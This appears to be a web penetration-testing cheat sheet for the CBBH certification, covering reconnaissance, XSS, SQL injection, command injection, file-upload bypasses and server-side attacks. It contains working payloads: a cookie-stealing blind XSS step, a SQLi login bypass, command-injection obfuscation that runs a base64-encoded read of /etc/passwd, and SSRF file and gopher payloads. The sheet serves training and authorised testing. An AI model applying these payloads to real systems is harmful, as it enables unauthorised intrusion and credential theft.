# CBBH Cheatsheet

## 1. Information Gathering <a href="#id-1-information-gathering" id="id-1-information-gathering"></a>

* Check the app and look for **entry points** (like `/upload`, `/shop`, `/contact`…).
* Check the **website technologies** with [Wappalyzer](https://www.wappalyzer.com/) or [whatweb](https://github.com/urbanadventurer/whatweb) to get information like **framework** in use, **CMSs** and **server backend language**.
* Check the source code of the app (`Ctrl+U`) and again look for **hidden endpoints** and also hidden **subdomains**.
* Try to find **Information Disclosures** and **Source Code Leaking** (like `app.js`, `fileUpload.php`…).
  * If you find some obfuscated or minified code, try to deobfuscate it → [JavaScript Deobfuscatio🎸](javascript-deobfuscation/)
* Launch a **directory fuzzer** (like dirsearch 📁, Ffuf 🐳 or Gobuster 🐦) to find all possible **hidden endpoints** (like `/secret`, `/r/a/b/b/i/t`…).
* Launch a **vhost** fuzzer (like [Ffuf 🐳](https://c1b3rn0t3s.com/notes/tools/Ffuf) or [Gobuster 🐦](https://c1b3rn0t3s.com/notes/tools/Gobuster)) to scan for **hidden vhosts** (like `dev.test.htb`, `admin.test.htb`…).
* If no vhost was discovered, always try to launch a **subdomain fuzzer** using [Gobuster 🐦](https://c1b3rn0t3s.com/notes/tools/Gobuster) to find all possible hidden subdomains.
* _Check the difference between vhosts and subdomains in_ [_vHosts vs Subdomains 💿_](https://c1b3rn0t3s.com/notes/Info/vHosts_vs_subdomains).

***

## 2. Checking functionalities <a href="#id-2-checking-functionalities" id="id-2-checking-functionalities"></a>

> _Once you have discovered all the website functionalities it’s time to check them ;D_

## 3. XSS (Cross Site Scripting) <a href="#xss-cross-site-scripting" id="xss-cross-site-scripting"></a>

* Check [XSS Theory 🍣](cross-site-scripting-xss/)

> There are three types of XSS:
>
> * **Stored** (Persistent)
> * **Reflected** (Non-persistent)
> * **DOM-based** (Non-persistent)

### Reflected XSS <a href="#reflected-xss" id="reflected-xss"></a>

> _Check_[ _XSS Theory_](cross-site-scripting-xss/) _🍣 and search for “Reflected”._

* Test forms by introducing some javascript code like: `<script>alert(window.origin)</script>`
  * _Check more payloads in payloadbox_ [_XSS Payload List_](https://github.com/payloadbox/xss-payload-list) _🥝_

### DOM XSS <a href="#dom-xss" id="dom-xss"></a>

> _Check_ [_XSS Theory_](cross-site-scripting-xss/) _🍣 and search for “DOM”._

* Try to modify the structure of the website by appending some javascript that creates new elements on the website: ``
  * _Check more payloads in_[ _payloadbox XSS Payload List_](https://github.com/payloadbox/xss-payload-list) _🥝._

### Stored XSS <a href="#stored-xss" id="stored-xss"></a>

**Option 1. Blind XSS**

> _Check_ [_XSS Theory_](cross-site-scripting-xss/) _🍣 and search for “Credential Stealing” or “Session Hijacking”._

* Always seek for cookies (like PHP cookies, JWT Tokens…):

<figure><figcaption></figcaption></figure>

If you find cookies in the website, it may be possible to perform a Blind Stored XSS. Next step is to find a contact form that will be reviewed by an admin like:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* So now you should fill it in order to steal the cookie of an admin.

**Option 2. Stored XSS**

* When you register yourself in kind of **blog** or **shop** and some of the parameters that you introduce are then showed in the website, which can lead to a Stored XSS that all users of the website get affected by.

***

## 4. SQLi (SQL Injections) <a href="#sqli-sql-injections" id="sqli-sql-injections"></a>

> _Check_ [_SQLi Fundamentals_ ](sql-injection/)_🐢 and search further to exploit the SQLi._

* If the website has a login panel, try some combinations to perform SQLi like `admin' or '1'='1`:
  * _Check more payloads in_ [_SQLi Payloads_](sql-injection/sql-injections.md) _🦊_.

<figure><figcaption></figcaption></figure>

> <mark style="background-color:yellow;">IMPORTANT</mark>: always check the accepted HTTP verbs with `OPTIONS`:

```
gitblanc@htb[/htb]$ curl -i -X OPTIONS http://SERVER_IP:PORT/
 
HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET  <--------- CHECK THIS
Content-Length: 0
Content-Type: httpd/unix-directory
```

* If this doesn’t show options, always try to **change the request method** (`POST`, `GET`, `HEAD`…).

> You can apply the previous methodology to the following parts of the application:
>
> * Login forms
> * Search fields
> * URL parameters (GET requests)
> * Form parameters (POST requests)
> * Cookies
> * HTTP headers (e.g., User-Agent, Referer)
> * Contact or comment forms
> * Hidden form fields
> * AJAX/JSON input without proper sanitization
> * Admin panels

* Automate this process of finding the correct payload and dumping with[ Sqlmap 🪲](sqlmap-essentials/).

***

### Command Injections <a href="#command-injections" id="command-injections"></a>

> _Check_[ _Command Injections 🍘_](command-injections/) _and search further to exploit the Command Injection._

* When you find another vulnerability like LFI, SSRF, CRLF… you can then try to append another command, which is called a “command injection”.
* To seek for this, you might use the following **operators**:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

* You can concatenate a new command to the application like the following:

<figure><figcaption></figcaption></figure>

**LINUX**

| Command                                                      | Description                                                                      |
| ------------------------------------------------------------ | -------------------------------------------------------------------------------- |
| `printenv`                                                   | Can be used to view all environment variables                                    |
| `%09`                                                        | Using tabs instead of spaces                                                     |
| `${IFS}`                                                     | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}`                                                   | Commas will be replaced with spaces                                              |
| `${PATH:0:1}`                                                | Will be replaced with /                                                          |
| `${LS_COLORS:10:1}`                                          | Will be replaced with ;                                                          |
| `$(tr '!-}' '"-~'<<<[)`                                      | Shift character by one (\[ → )                                                   |
| `' or "`                                                     | Total must be even                                                               |
| `$@ or \`                                                    | Linux only                                                                       |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases                                              |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique                                               |
| `echo 'whoami' \| rev`                                       | Reverse a string                                                                 |
| `$(rev<<<'imaohw')`                                          | Execute reversed command                                                         |
| `echo -n 'cat /etc/passwd`                                   | grep 33’ \| base64 Encode a string with base64                                   |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string                                                       |

**WINDOWS**

| Command                                                                                                        | Description                                  |
| -------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| `%09`                                                                                                          | Using tabs instead of spaces                 |
| `%PROGRAMFILES:~10,-5%`                                                                                        | Will be replaced with a space - (CMD)        |
| `$env:PROGRAMFILES\[10]`                                                                                       | Will be replaced with a space - (PowerShell) |
| `%HOMEPATH:~0,-17%`                                                                                            | Will be replaced with \ - (CMD)              |
| `$env:HOMEPATH\[0]`                                                                                            | Will be replaced with \ - (PowerShell)       |
| `' or "`                                                                                                       | Total must be even                           |
| `^`                                                                                                            | Windows only (CMD)                           |
| `WhoAmi`                                                                                                       | Simply send the character with odd cases     |
| `"whoami"\[-1..-20] -join ''`                                                                                  | Reverse a string                             |
| `iex "$('imaohw'\[-1..-20] -join '')"`                                                                         | Execute reversed command                     |
| `[Convert]::ToBase64String(\[System.Text.Encoding]::Unicode.GetBytes('whoami'))`                               | Encode a string with base64                  |
| `iex "$(\[System.Text.Encoding]::Unicode.GetString(\[System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string                   |

***

### Malicious File Uploads <a href="#malicious-file-uploads" id="malicious-file-uploads"></a>

Info

> _Check_ [_File Upload Attacks 💣_](file-upload-attacks/) _and search further to exploit the Malicious File Upload._

* Once you find a upload button, always check the functionality. This means to first try to properly upload an accepted file (like a `.jpg` or a `.png`) an then note **where the file is being uploaded** or which kind of files are accepted.

<figure><figcaption></figcaption></figure>

* Once tested the functionality, it’s time to break it, following this procedure:

1. Remove the **client side validation** (_if exists_):

<figure><figcaption></figcaption></figure>

2. Capture the request with a Proxy and fuzz for the accepted types with the wordlist `/usr/share/seclists/Discovery/Web-Content/web-extensions-big.txt`. Eventually you’ll find the accepted types:

<figure><figcaption></figcaption></figure>

> <mark style="background-color:yellow;">IMPORTANT:</mark> if none are found, you might need to bypass the filters of the accepted files. To do so, create a script like this that generates a specific wordlist for us (in this case is being tested with `.jpg`):

```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do # Add as many character injections as you want
    for ext in '.php' '.phps' '.phtml' '.phar'; do # Here change the accepted ones
        echo "test$char$ext.jpg" >> wordlist.txt
        echo "test$ext$char.jpg" >> wordlist.txt
        echo "test.jpg$char$ext" >> wordlist.txt
        echo "test.jpg$ext$char" >> wordlist.txt
    done
done
```

<figure><figcaption></figcaption></figure>

3. Once you find the accepted files, search for content type signatures valid for that type of file (in this case `.svg`):

```
cat /usr/share/seclists/Discovery/Web-Content/web-all-content-types.txt | grep 'svg'   
 
image/svg+xml
application/vnd.oipf.dae.svg+xml
```

4. Then try it:

<figure><figcaption></figcaption></figure>

5. **If it doesn’t work**, try to change the MIME Type of the file (use the ones contained here [List of file Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)).

* _Most common are `ÿØÿà`, `GIF8`, `GIF87a`, `GIF89a`, `ÿØÿî` and `ÿØÿÛ`_

6. Then you can add a reverse shell by an XXE Injection or simply adding it. For more info check [File Upload Attacks Theory 💣.](file-upload-attacks/)

***

## 5. Server-side Attacks <a href="#server-side-attacks" id="server-side-attacks"></a>

> _Check_ [_Server Side Attacks Theory 🗺️_](server-side-attacks/) _and search further to exploit the Server-side attack._ The following are contemplated:
>
> * SSRF&#x20;
> * SSTI&#x20;
> * SSI&#x20;
> * XSLT Injection

### SSRF <a href="#ssrf" id="ssrf"></a>

> _SSRF is a vulnerability where an attacker tricks the server into making HTTP requests to internal or external resources, potentially accessing sensitive data or internal systems._

<table data-header-hidden><thead><tr><th width="123"></th><th></th></tr></thead><tbody><tr><td><strong>Exploitation</strong></td><td>&#x3C;------------------------------------------------------------------------</td></tr><tr><td></td><td>internal portscan by accessing ports on localhost</td></tr><tr><td></td><td>accessing restricted endpoints</td></tr><tr><td><strong>Protocols</strong></td><td>&#x3C;------------------------------------------------------------------------</td></tr><tr><td></td><td><code>http://127.0.0.1/</code></td></tr><tr><td></td><td><code>file:///etc/passwd</code></td></tr><tr><td></td><td><code>gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin</code></td></tr></tbody></table>

### SSTI <a href="#ssti" id="ssti"></a>

> Info
>
> _SSTI is a vulnerability that occurs when user input is embedded directly into a server-side template (like Jinja2, Twig, or ERB) without proper sanitization. This can allow attackers to execute arbitrary code on the server._

* Depending on the template used, check the following:

<figure><figcaption></figcaption></figure>

* Or the extended version:

<figure><figcaption></figcaption></figure>

> You can check the machine Nunchucks

<figure><figcaption></figcaption></figure>

### SSI <a href="#ssi" id="ssi"></a>

> _An attack that exploits SSI directives (like `<!--#exec-->`) to execute arbitrary commands on the server, often when input is included in `.shtml` or similar files without proper sanitization._

